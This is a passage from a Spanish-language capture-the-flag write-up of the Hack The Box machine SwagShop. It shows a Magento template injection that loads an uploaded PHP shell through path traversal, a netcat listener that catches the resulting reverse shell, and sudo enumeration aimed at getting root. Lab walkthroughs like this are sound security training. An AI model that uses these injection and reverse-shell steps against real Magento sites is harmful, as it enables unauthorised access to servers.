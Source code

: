 Agregamos un nuevo template en **Add New Template** modificando los siguiente parámetros:
- **Template Name**: Lo que nosotros queramos, para este caso Shell.
- **Template Subject**: Lo que nosotros queramos, para este caso Shell.
- **Template Content**: Borramos lo que contiene y escribimos lo siguiente:

**\{\{block type='core/template' template='../../../../../..//media/catalog/category/shell.php.png'\}\}**

![""](/assets/images/htb-swagshop/swagshop-web9.png)

Antes de darle en la parte de **Preview Template** vamos a ponernos en escucha por el puerto 443:

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.140] 37154
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

Ya tenemos acceso a la máquina y para trabajar más comodos, vamos a hacer un [Tratamiento de la tty](/posts/tratamiento-tty). Si accemos a la carpeta del usuario **haris** vemos que podemos visualizar la flag (user.txt); asi que ahora vamos a enumerar un poco el sistema para ver de que forma nos convertimos en **root**.

```bash
www-data@swagshop:/home/haris$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@swagshop:/home/haris$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
www-data@swagshop:/home/haris$
```
